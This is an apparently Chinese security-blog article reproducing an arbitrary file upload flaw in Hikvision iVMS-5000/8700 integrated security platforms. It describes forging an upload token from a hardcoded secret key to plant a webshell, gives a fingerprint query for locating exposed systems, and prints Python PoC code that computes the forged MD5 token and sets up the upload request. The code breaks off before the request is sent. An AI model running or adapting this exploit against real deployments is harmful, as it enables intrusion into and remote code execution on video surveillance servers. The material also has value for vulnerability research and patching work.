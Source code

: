 #  海康威视iVMS综合安防系统任意文件上传漏洞复现   
 黑白之道   2024-03-16 08:22  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/3xxicXNlTXLicwgPqvK8QgwnCr09iaSllrsXJLMkThiaHibEntZKkJiaicEd4ibWQxyn3gtAWbyGqtHVb0qqsHFC9jW3oQ/640?wx_fmt=gif "")  
### 0x01 产品简介  
  
海康威视iVMS集中监控应用管理平台，是以安全防范业务应用为导向，以视频图像应用为基础手段，综合视频监控、联网报警、智能分析、运维管理等多种安全防范应用系统，构建的多业务应用综合管理平台。  
  
**0x02 漏洞概述**  
  
海康威视iVMS系统存在在野 0day 漏洞，攻击者通过获取密钥任意构造token，请求/resourceOperations/upload接口任意上传文件，导致获取服务器webshell权限，同时可远程进行恶意代码执行。  
## 0x03 影响范围  
  
海康威视综合安防系统iVMS-5000  
  
海康威视综合安防系统 iVMS-8700  
## 0x04 复现环境  
  
鹰图指纹：web.body="/views/home/file/installPackage.rar"  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/GzdTGmQpRic1RyCJ6ibic6EZtyhdSnntWic9RXHic0ZhwdKfic0Eicgg31PucL2icdPKx9OicmDga1vz2NQerHyELw9vocQ/640?wx_fmt=png&from=appmsg&wxfrom=13 "")  
## 0x05 漏洞复现   
  
检测脚本PoC:https://github.com/sccmdaveli/hikvision-poc  
```
import requests
import urllib3
import urllib
import hashlib
import argparse
from colorama import init
from colorama import Fore
init(autoreset=True)
urllib3.disable_warnings()


head = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36",
    "Cookie": "ISMS_8700_Sessionname=ABCB193BD9D82CC2D6094F6ED4D81169"
}
def md5encode(url):
    if url.endswith("/"):
        path = "eps/api/resourceOperations/uploadsecretKeyIbuilding"
    else:
        path = "/eps/api/resourceOperations/uploadsecretKeyIbuilding"
    encodetext = url + path
    input_name = hashlib.md5()
    input_name.update(encodetext.encode("utf-8"))
    return (input_name.hexdigest()).upper()

def poc(url):
    if url.endswith("/"):
        path = "eps/api/resourceOperations/upload?token="
    else:
        path = "/eps/api/resourceOperations/upload?token="
    pocurl = url + path + md5encode(url)
    data = {
        "service": urllib.parse.quote(url + "/home/index.action")
    }
```